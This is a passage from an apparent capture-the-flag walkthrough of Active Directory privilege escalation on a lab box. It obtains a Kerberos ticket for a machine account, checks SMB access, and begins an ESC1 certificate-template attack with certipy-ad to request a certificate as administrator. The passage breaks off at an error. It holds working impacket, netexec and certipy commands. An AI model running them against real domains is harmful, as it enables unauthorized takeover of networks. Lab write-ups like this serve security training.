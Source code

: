 ```shell
impacket-getTGT $domain/BANKING\$:banking
```

{{< figure src="/ox-hugo/2025-09-17-150532_.png" >}}

Then we set the ENV `KRB5CCNAME` to point to the kerberos ticket:

```shell
export KRB5CCNAME=./BANKING\$.ccache
```

{{< figure src="/ox-hugo/2025-09-17-150616_.png" >}}

Let's validate the ticket works using `impacket-smbclient`:

```shell
impacket-smbclient -k -no-pass $domain/BANKING\$@DC
```

{{< figure src="/ox-hugo/2025-09-17-150645_.png" >}}

We can also use netexec too or any other tool that allows `kerberos` authentication.

```shell
netexec smb $domain --use-kcache --shares
```

{{< figure src="/ox-hugo/2025-09-17-151428_.png" >}}

+Note+: I am going to to continue this box using the kerberos method without changing the password, so if you want to follow along I would advise resetting the box if you have changed the password.

### Exploiting ESC1 For Privilege Escalation: {#exploiting-esc1-for-privilege-escalation}

Now we have control of the account we should be able to exploit the vulnerable certificate "RetroClients" and escalate our privileges.

**High Level Overview of the ESC1 Attack**:
ESC1 allows us to request a ticket on behalf of another, often higher privileged, user by supplying a UPN (User Principle Name) once we have this ticket we can then use it to authenticate by performing a pass the cert attack. Doing this allows us to execute commands in the context of the user. In simple terms we request a certificate as the administrator and use that to authenticate as them.

+Deep Dive+: If you want a deeper dive into the ESC1 attack I have done that [in this article](https://bloodstiller.com/walkthroughs/escape-box/#using-esc1-attack-chain-to-elevate-privileges-to-administrator).

#### Requesting A Certificate: {#requesting-a-certificate}

If we run the command below

```shell
certipy-ad req -k -no-pass -dc-ip $box -target DC.$domain -ca 'retro-DC-CA' -template 'RetroClients' -upn administrator@$domain -dc-host dc.$domain
```

We get can see we get an error telling us the `The public key does not meet the minimum size required by the specified certificate template.`
![](/ox-hugo/2025-09-18-071201_.png)
